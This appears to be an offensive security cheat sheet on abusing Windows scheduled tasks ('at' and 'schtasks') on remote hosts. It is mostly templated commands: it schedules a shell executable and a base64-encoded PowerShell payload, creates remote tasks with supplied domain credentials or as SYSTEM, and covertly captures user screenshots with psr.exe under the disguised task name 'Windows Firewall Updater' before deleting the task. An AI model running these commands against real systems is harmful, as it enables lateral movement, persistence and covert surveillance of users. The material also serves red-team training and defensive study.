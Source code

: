 # Schedule Periodic Tasks

## 01 - at

### 1.1 - Use Cases

```
C:\> net time \\<IP>

C:\> at <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at <HH:mm> powershell.exe -E <base64_payload>

C:\> at \\<IP>
```

## 02 - Schtasks

### 2.1 - Usage

```
C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru [DOMAIN]\<username> /rp <password>

C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru system
```

`/create` => create a schedule task
`/sc` => type of schedule
`/st` => start time
`/tn` => task name
`/tr` => task run
`/s` => computer IP
`/ru` => specify the {`[DOMAIN_name]\<username>|system`}
`/rp` => specify the password
`/it` => Make it interactive when the user is using his computer

### 2.2 - Use Cases

- Taking screenshots (Living off the Land)

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> schtasks /create /sc once /st 00:00 /tn "Windows Firewall Updater" /tr "C:\Windows\System32\psr.exe /start /gui 0 /output C:\Users\<username>\out.zip" /s <ip> /ru <DOMAIN_NAME>\<username> /rp <password> /it

C:\> schtasks [/start|/run] /tn "Windows Firewall Updater" /s <IP>

C:\> schtasks /delete /f /tn "Windows Firewall Updater" /s <IP>

C:\> schtasks /query /tn "Windows Firewall Updater" /fo List /v /s <IP>
```

## References

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)